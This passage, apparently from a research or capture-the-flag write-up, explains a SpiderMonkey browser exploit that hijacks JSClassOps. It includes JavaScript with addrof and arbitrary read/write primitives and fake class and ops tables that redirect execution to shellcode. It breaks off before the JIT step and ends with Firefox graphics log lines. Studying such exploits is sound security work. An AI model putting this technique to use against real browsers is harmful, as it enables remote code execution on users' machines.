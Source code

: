 For example, `cOps->addProperty` is called whenever JS code adds a new property
to the object. The fourth argument (stored in `rcx` on Linux) contains a handle
(a pointer) to the value of the new property. This is perfect because we can
completely control this value, and for example we can pass the address of a
buffer containing a second-stage shellcode. Great!

We cannot directly overwrite the `JsClassOps` because they are stored in read-only
memory. However we can simply follow the chain of pointers from our object to
`JSClassOps` and replace the last pointer in the chain that is in writable memory
with a pointer to a fake. Again, this is all described in 0vercl0k's post so
I won't bore you with the details.

```js
// Return the address of a JavaScript object
function addrof(x) {
    a.oob(14, x);
    return b[0] & 0xffffffffffffn;
}

const addrof_target = addrof(target);
const target_shape = read64(addrof_target);
const target_base_shape = read64(target_shape);
const target_class = read64(target_base_shape);
const target_ops = read64(target_class + 0x10n);
print(`addrof(target) = ${hex(addrof_target)}`);
print(`target->shape = ${hex(target_shape)}`);
print(`target->shape->base_shape = ${hex(target_base_shape)}`);
print(`target->shape->base_shape->class = ${hex(target_class)}`);
print(`target->shape->base_shape->class->ops = ${hex(target_ops)}`);

const fake_class = new BigUint64Array(48);
const fake_class_buffer = read64(addrof(fake_class) + 0x30n);
for (let i = 0; i < 6; i++) {
    fake_class[i] = read64(target_class + BigInt(i) * 8n);
}

const fake_ops = new BigUint64Array(88);
const fake_ops_buffer = read64(addrof(fake_ops) + 0x30n);
for (let i = 0; i < 11; i++) {
    fake_ops[i] = read64(target_ops + BigInt(i) * 8n);
}

fake_ops[0] = stage1_addr;
fake_class[2] = fake_ops_buffer;
write64(target_base_shape, fake_class_buffer);

target.someprop = i2d(shellcode_addr);
```

Now all that we have to do is to get the JIT to compile our code and find it in
memory. The first part is easy, simply put it in a function and call it many times
in a loop until the JIT decides that the function is hot and compiles it:


[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt